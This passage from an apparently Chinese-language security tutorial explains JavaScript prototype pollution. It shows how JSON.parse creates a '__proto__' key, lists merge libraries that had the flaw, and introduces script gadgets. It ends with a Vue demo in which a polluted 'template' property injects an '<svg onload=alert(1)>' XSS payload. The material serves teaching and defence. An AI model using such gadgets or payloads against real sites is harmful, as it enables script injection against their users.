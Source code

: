 這邊之所以用到 `JSON.parse`，是因為如果直接寫：

``` js
var customConfig = {
  __proto__: {
    a: 1
  }
}
```

是沒有用的，`customConfig` 只會是一個空物件而已。要用 `JSON.parse`，才能製造出一個「key 是 `__proto__`」的物件：

``` js
var obj1 = {
  __proto__: {
    a: 1
  }
}
var obj2 = JSON.parse('{"__proto__": {"a": 1}}')
console.log(obj1) // {}
console.log(obj2) // { __proto__: { a: 1 } }
```

同樣地，也有許多 merge 相關的 library 曾經有這個漏洞，底下簡單列舉幾個：

1. [merge](https://snyk.io/vuln/SNYK-JS-MERGE-1040469)
2. [lodash.merge](https://snyk.io/vuln/SNYK-JS-LODASHMERGE-173733)
3. [plain-object-merge ](https://snyk.io/vuln/SNYK-JS-PLAINOBJECTMERGE-1085643)

除了這些以外，只要是操作物件相關的 library 基本上都出現過類似問題，像是：

1. [immer](https://snyk.io/vuln/SNYK-JS-IMMER-1019369)
2. [mootools](https://snyk.io/vuln/SNYK-JS-MOOTOOLS-1325536)
3. [ioredis](https://snyk.io/vuln/SNYK-JS-IOREDIS-1567196)

現在已經知道哪些地方容易發生 prototype pollution 的問題了，但如果只是污染原型上的屬性，是沒有用的，還需要找到能影響到的地方，也就是說，有哪些地方在屬性被污染以後，行為會改變，可以讓我們執行攻擊？

## Prototype pollution script gadgets

這些「只要我們污染了 prototype，就可以拿來利用的程式碼」叫做 script gadget，有一個 GitHub repo 專門搜集了這些 gadget：[Client-Side Prototype Pollution](https://github.com/BlackFan/client-side-prototype-pollution)，有些 gadget 可能是你想像不到的，我來示範一下（[demo 網頁](https://aszx87410.github.io/demo/prototype-pollution/vue.html)）：

``` html
<!DOCTYPE html>

<html lang="en">
<head>
  <meta charset="utf-8">
  <script src="https://unpkg.com/vue/dist/vue.js"></script>
</head>
<body>
  <div id="app">
    {{ message }}
  </div>
  <script>
    // 污染 template
    Object.prototype.template = '<svg onload=alert(1)></svg>';
    var app = new Vue({ 
      el: '#app',
      data: {
        message: 'Hello Vue!'
      }
    });
  </script>
</body>
</html>
```
